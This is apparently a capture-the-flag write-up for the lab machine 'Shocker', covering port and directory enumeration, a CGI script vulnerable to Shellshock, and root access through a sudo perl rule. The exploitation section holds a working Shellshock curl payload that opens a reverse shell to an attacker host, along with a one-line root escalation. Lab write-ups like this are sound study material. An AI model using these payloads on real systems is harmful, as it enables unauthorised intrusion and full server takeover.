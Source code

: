 # IP address: 10.10.10.56

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.56 -t all

Running all scans on 10.10.10.56

Host is likely running Linux


---------------------Starting Script Scan-----------------------



PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### HTTP

The home page of the site is simple. 
![[Pasted image 20211113123436.png]]

Nothing in the source code.
```
┌──(code㉿kali)-[~/Downloads]
└─$ curl http://10.10.10.56/                                                                        
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>
<img src="bug.jpg" alt="bug" style="width:450px;height:350px;">

</body>
</html> 
```

Nothing in the image.
```
┌──(code㉿kali)-[~/Downloads]
└─$ steghide extract -sf bug.jpg                                                                    
Enter passphrase: 
steghide: could not extract any data with that passphrase!

┌──(code㉿kali)-[~/Downloads]
└─$ exiftool bug.jpg 
ExifTool Version Number         : 12.32
File Name                       : bug.jpg
Directory                       : .
File Size                       : 36 KiB
File Modification Date/Time     : 2021:11:13 12:40:02-05:00
File Access Date/Time           : 2021:11:13 12:40:02-05:00
File Inode Change Date/Time     : 2021:11:13 12:40:02-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : CREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90.
Image Width                     : 820
Image Height                    : 420
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 820x420
Megapixels                      : 0.344

```

Fuzzing for files and directories on the server, we find user.sh and download it. 
```
┌──(code㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/FUZZ -e .php,.txt,.py,.html,.sh -recursion -recursion-depth 2

...

user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]

┌──(code㉿kali)-[~]
└─$ wget http://10.10.10.56/cgi-bin/user.sh
--2021-11-13 13:32:20--  http://10.10.10.56/cgi-bin/user.sh
Connecting to 10.10.10.56:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/x-sh]
Saving to: ‘user.sh’

user.sh                      [ <=>                               ]     118  --.-KB/s    in 0.001s  

2021-11-13 13:32:20 (218 KB/s) - ‘user.sh’ saved [118]


┌──(code㉿kali)-[~]
└─$ cat user.sh                                                                                     
Content-Type: text/plain

Just an uptime test script

 13:38:37 up  2:32,  0 users,  load average: 0.01, 0.13, 0.09

```

When Googling for CGI exploitation, we find a Shellshock vulnerability which (probaby non-coincidentally) relates to the name of the target machine (Shocker).

Running the nmap script to check for the Shellshock vulnerability, we see that the target is vulnerable. 
```
┌──(code㉿kali)-[~]
└─$ nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 16:27 EST
Nmap scan report for 10.10.10.56
Host is up (0.024s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds

```

# Exploitation

With the following command and a netcat listener on port 4488, we get a reverse shell on the target.
```
┌──(code㉿kali)-[~]
└─$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/4488 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

On target:
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488
listening on [any] 4488 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.56] 40980
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

user.txt

![[Pasted image 20211113163523.png]]

# Privilege Escalation

Looks like our user, shelly, can execute perl as root without a password. 
```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)

```

# Proof

root.txt

![[Pasted image 20211113164349.png]]